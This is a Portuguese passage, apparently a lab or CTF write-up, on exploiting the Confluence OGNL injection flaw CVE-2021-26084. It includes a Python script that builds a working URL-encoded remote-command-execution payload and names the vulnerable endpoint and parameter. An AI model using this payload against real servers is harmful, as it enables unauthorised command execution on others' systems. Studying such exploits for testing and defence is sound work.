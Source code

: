 [GitHub - carlosevieira/CVE-2021-26084: CVE-2021-26084 - Confluence Pre-Auth RCE | OGNL injection](https://github.com/carlosevieira/CVE-2021-26084)

Esse exploit basicamente pega um comando que o usuário passa, encoda ele na payload e manda para o servidor tudo certinho sem problemas de quebra.

Portando peguei o código dele e fiz umas alterações ja que só precisamos da payload:

O meu código para gerar as payloads ficou mais ou menos assim:

```python
import sys

def craft_payload(command):
	command = command.replace('"', '%5Cu0022').replace("'","%5Cu0027").replace(' ',"%20")
	payload = "%5cu0027%2b{Class.forName(%5cu0027javax.script.ScriptEngineManager%5cu0027).newInstance().getEngineByName(%5cu0027JavaScript%5cu0027).%5cu0065val(%5cu0027var+isWin+%3d+java.lang.System.getProperty(%5cu0022os.name%5cu0022).toLowerCase().contains(%5cu0022win%5cu0022)%3b+var+cmd+%3d+new+java.lang.String(%5cu0022"+command+"%5cu0022)%3bvar+p+%3d+new+java.lang.ProcessBuilder()%3b+if(isWin){p.command(%5cu0022cmd.exe%5cu0022,+%5cu0022/c%5cu0022,+cmd)%3b+}+else{p.command(%5cu0022bash%5cu0022,+%5cu0022-c%5cu0022,+cmd)%3b+}p.redirectErrorStream(true)%3b+var+process%3d+p.start()%3b+var+inputStreamReader+%3d+new+java.io.InputStreamReader(process.getInputStream())%3b+var+bufferedReader+%3d+new+java.io.BufferedReader(inputStreamReader)%3b+var+line+%3d+%5cu0022%5cu0022%3b+var+output+%3d+%5cu0022%5cu0022%3b+while((line+%3d+bufferedReader.readLine())+!%3d+null){output+%3d+output+%2b+line+%2b+java.lang.Character.toString(10)%3b+}%5cu0027)}%2b%5cu0027"
	return payload
	
cmd = sys.argv[1]
print(exploit(cmd))
```

![Untitled](/assets/planilhasbaby/Untitled%2014.png)

E parece funcionar.

Pelo o que li da vulnerabilidade existem várias "rotas" no confluence que aceitam parâmetros vulneráveis (escolhi o 'queryString') a SSTI, portando escolhi um aleatório para mandar a payload ('pages/doenterpagevariables.action').
